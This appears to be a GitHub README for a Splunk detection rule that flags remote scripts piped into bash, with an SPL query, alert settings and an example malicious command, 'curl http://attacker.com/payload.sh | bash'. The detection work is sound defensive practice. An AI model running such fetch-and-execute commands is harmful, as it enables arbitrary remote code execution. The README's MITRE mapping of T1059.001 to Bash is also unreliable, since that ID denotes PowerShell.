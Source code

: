 # ⚠️ Curl to Bash Detection – MITRE T1059.001

This project detects adversary behavior that pipes remote scripts directly into the shell using `curl | bash` — a common initial access or post-exploitation technique.

---

## 🎯 MITRE ATT&CK Mapping
- **Technique**: T1059.001 – Command and Scripting Interpreter: Bash

---

## 🔍 Detection Logic (SPL)

``spl
index=* sourcetype=bash_history ("curl" OR "wget") AND "bash"

| eval user="testuser"

| eval event_type="Curl Pipe to Bash Detected"

| table _time user host event_type _raw

| sort _time


## 💡 Description
This rule identifies suspicious command usage from .bash_history where a remote payload is downloaded and executed in one step.


curl http://attacker.com/payload.sh | bash

## 📂 Files

incident-report.txt

alert-summary.txt

## ✅ Alert Status
Scheduled every 5 minutes

Trigger condition: Results > 0

Action: Logs new event into main index + sends alert email



screenshots/ – CLI + Splunk UI output
